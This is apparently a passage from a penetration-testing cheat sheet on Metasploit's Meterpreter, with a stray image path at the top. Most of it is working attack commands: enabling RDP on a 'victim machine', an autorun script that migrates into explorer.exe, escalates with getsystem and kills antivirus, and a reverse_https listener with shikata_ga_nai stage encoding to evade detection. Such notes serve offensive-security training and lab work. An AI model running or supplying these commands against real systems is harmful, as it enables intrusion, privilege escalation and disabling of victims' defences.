 #### to move to another transport background the current session and run the right payload with options same as the target transport and wait for connection.

#### once you have more than one transfport its safe to use this command to move between transports:

```
transport next
transport prev
```

## <mark style="color:red;">Enable RDP</mark>

enable RDP on victim machine use rdesktop to connect

```
run getgui -e
```

## <mark style="color:red;">Script Automation</mark>

#### put the meterpreter commands in a .rc file setup meter and set the autorun script path:.

example:

#### migrate o explorer.exe and dump system credential

```
set AutoRunScript  /root/autoruncommands.rc

migrate -N explorer.exe
getsystem
run post/windows/manage/killav
run post/windows/gather/checkvm
getuid
```

we can automate the whole thing too.

For example, using a standard editor, we will create a script in our home directory named setup.rc. In this script, we will set the payload to windows/meterpreter/reverse\_https and configure the relevant LHOST and LPORT parameters. We also enable stage encoding using the x86/shikata\_ga\_nai encoder and configure the post/windows/manage/migrate module to be executed automatically using the AutoRunScript option. This will cause the spawned meterpreter to automatically launch a background notepad.exe process and migrate to it. Finally, the ExitOnSession parameter is set to “false” to ensure that the listener keeps accepting new connections and the module is executed with the -j and -z flags to stop us from automatically interacting with the session. The commands for this are as follows:

```
use exploit/multi/handler
set PAYLOAD windows/meterpreter/reverse_https
set LHOST 10.11.0.4
set LPORT 443
set EnableStageEncoding true
set StageEncoder x86/shikata_ga_nai
set AutoRunScript post/windows/manage/migrate
set ExitOnSession false
exploit -j -z
```

